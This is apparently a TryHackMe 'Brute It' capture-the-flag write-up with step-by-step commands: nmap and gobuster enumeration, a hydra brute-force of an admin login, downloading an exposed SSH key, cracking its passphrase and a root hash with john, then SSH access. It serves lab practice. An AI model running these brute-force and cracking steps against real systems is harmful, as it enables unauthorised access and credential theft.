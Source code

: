 ```yaml
---
title: TryHackMe - Brute It
author: Bonface
date: 2024-10-31 00:00:00 +0000
categories: [TryHackMe]
tags: [tryhackme, linux, nmap, privesc, brute, ssh, http, gobuster, john, crack,SUID]
---
```


# Brute It

Learn how to brute, hash cracking and escalate privileges in this box!
- Brute-force
- Hash cracking
- Privilege escalation

# nmap

## ip = `10.10.40.7`

```sh
 nmap -sV -sC -A -v 10.10.40.7
 ```
 
```sh
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
| 256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_ 256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_ Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# http_80

## To Do list
- visit he site
- surf around
- View the source code
- visit robots.txt
- run gobuster


## The site
![[Pasted image 20241028191105.png]]

## gobuster
```sh
 gobuster dir -u http://10.10.40.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

`/admin`
![[Pasted image 20241028191132.png]]

## /admin/source code
![[Pasted image 20241028191143.png]]

Details Acquired
-------------------
user = john  
username = admin  
password = ???  

# Brute force

Here we can brute force the login page using the details gotten.  
we use hydra.  

```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.40.7 http-post-form "/admin/:user=^USER^&pass=^PASS^&Login=Login:Username or password invalid"
```
![[Pasted image 20241028191159.png]]

now we have:  
username = `admin`  
password = `xavier`  

We login!
![[Pasted image 20241028191213.png]]
Let's download the rsa key

```sh
 wget http://10.10.40.7/admin/panel/id_rsa
```
brute force using john
```sh
ssh2john id_rsa > forjohn
john forjohn.txt --format="SSH" --wordlist=/usr/share/wordlists/rockyou.txt
```
![[Pasted image 20241028191248.png]]

Details Acquired
-----------------------------------------------------
user = `john`  
`id_rsa`  
password = `rockinroll`  

Let's jump to ssh port 22  

```sh
 ssh -i id_rsa john@10.10.40.7
#passphrase = rockinroll
```
![[Pasted image 20241028191305.png]]


# privilege escalation

## sudo -l
![[Pasted image 20241028191322.png]]

We get that we can read the `/etc/passwd` file where we can get the root hash,crack it and get the root password.  
Decrypt the hash using sir john
```sh
john --wordlist=/usr/share/wordlists/rockyou.txt roothash.txt
```
